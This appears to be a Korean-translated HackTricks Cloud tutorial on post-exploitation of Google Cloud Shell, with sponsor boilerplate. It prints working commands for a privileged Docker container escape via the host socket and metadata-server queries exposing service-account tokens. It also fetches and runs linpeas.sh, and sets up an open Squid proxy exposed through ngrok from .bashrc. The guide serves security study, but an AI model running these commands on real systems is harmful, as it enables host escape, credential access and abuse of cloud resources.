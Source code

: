 # GCP - 클라우드 쉘 후방공격

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* 회사를 **HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)를 **팔로우**하세요.
* **HackTricks**와 **HackTricks Cloud**에 PR을 제출하여 자신의 해킹 기법을 공유하세요.
* &#x20;github 저장소.

</details>

## 클라우드 쉘

클라우드 쉘에 대한 자세한 정보는 다음을 확인하세요:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### 컨테이너 탈출

Google Cloud Shell이 컨테이너 내에서 실행되는 것에 유의하세요. 호스트로 **쉽게 탈출**할 수 있습니다. 다음을 수행하세요:

{% code overflow="wrap" %}
```bash
sudo docker -H unix:///google/host/var/run/docker.sock pull alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock run -d -it --name escaper -v "/proc:/host/proc" -v "/sys:/host/sys" -v "/:/rootfs" --network=host --privileged=true --cap-add=ALL alpine:latest
sudo docker -H unix:///google/host/var/run/docker.sock start escaper
sudo docker -H unix:///google/host/var/run/docker.sock exec -it escaper /bin/sh
```
{% endcode %}

이것은 구글에 의해 취약점으로 간주되지 않지만, 해당 환경에서 무슨 일이 일어나고 있는지 더 넓은 시야를 제공합니다.

또한, 호스트에서 서비스 계정 토큰을 찾을 수 있다는 것에 주목하세요:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/"
default/
vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/
```
{% endcode %}

다음과 같은 범위로:

{% code overflow="wrap" %}
```bash
wget -q -O - --header "X-Google-Metadata-Request: True" "http://metadata/computeMetadata/v1/instance/service-accounts/vms-cs-europe-west1-iuzs@m76c8cac3f3880018-tp.iam.gserviceaccount.com/scopes"

https://www.googleapis.com/auth/devstorage.read_only
https://www.googleapis.com/auth/logging.write
https://www.googleapis.com/auth/monitoring.write
```
LinPEAS를 사용하여 메타데이터 열거하기:

{% code overflow="wrap" %}
```bash
cd /tmp
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
sh linpeas.sh -o cloud
```
{% endcode %}

[https://github.com/carlospolop/bf\_my\_gcp\_permissions](https://github.com/carlospolop/bf\_my\_gcp\_permissions)를 사용하여 서비스 계정 토큰으로 **권한이 발견되지 않았습니다**...

### 프록시로 사용하기

Google Cloud Shell 인스턴스를 프록시로 사용하려면 다음 명령을 실행하거나 (.bashrc 파일에 삽입)해야합니다:
```bash
sudo apt install -y squid
```
알려드리기 위해 Squid는 HTTP 프록시 서버입니다. 다음 설정을 사용하여 **squid.conf** 파일을 생성하세요:
```bash
http_port 3128
cache_dir /var/cache/squid 100 16 256
acl all src 0.0.0.0/0
http_access allow all
```
**squid.conf** 파일을 **/etc/squid**로 복사합니다.
```bash
sudo cp squid.conf /etc/squid
```
마지막으로 squid 서비스를 실행합니다:
```bash
sudo service squid start
```
ngrok을 사용하여 프록시를 외부에서 사용할 수 있도록 설정합니다:

```bash
ngrok http 8080
```

ngrok을 사용하여 로컬 포트 8080에 대한 터널을 생성합니다. 이렇게 하면 외부에서 해당 포트에 액세스할 수 있습니다.
```bash
./ngrok tcp 3128
```
실행 후 tcp:// URL을 복사합니다. 브라우저에서 프록시를 실행하려면 tcp:// 부분과 포트를 제거하고 포트를 브라우저 프록시 설정의 포트 필드에 넣는 것이 좋습니다 (squid는 HTTP 프록시 서버입니다).

시작 시 더 편리하게 사용하기 위해 .bashrc 파일에 다음 줄을 추가해야 합니다:
```bash
sudo apt install -y squid
sudo cp squid.conf /etc/squid/
sudo service squid start
cd ngrok;./ngrok tcp 3128
```
지침은 [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)에서 복사되었습니다. 다른 미친 아이디어를 확인하여 Cloud Shell에서 모든 종류의 소프트웨어(데이터베이스 및 심지어 Windows)를 실행하는 방법을 알아보세요.

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong>를 통해 AWS 해킹을 처음부터 전문가까지 배워보세요<strong>!</strong></summary>

HackTricks를 지원하는 다른 방법:

* **회사를 HackTricks에서 광고하거나 HackTricks를 PDF로 다운로드**하려면 [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)를 확인하세요!
* [**공식 PEASS & HackTricks 스웨그**](https://peass.creator-spring.com)를 얻으세요.
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)를 발견하세요. 독점적인 [**NFTs**](https://opensea.io/collection/the-peass-family) 컬렉션입니다.
* 💬 [**Discord 그룹**](https://discord.gg/hRep4RUj7f) 또는 [**텔레그램 그룹**](https://t.me/peass)에 **참여**하거나 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**를** **팔로우**하세요.
* **HackTricks**와 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 저장소에 PR을 제출하여 여러분의 해킹 기교를 공유하세요.

</details>
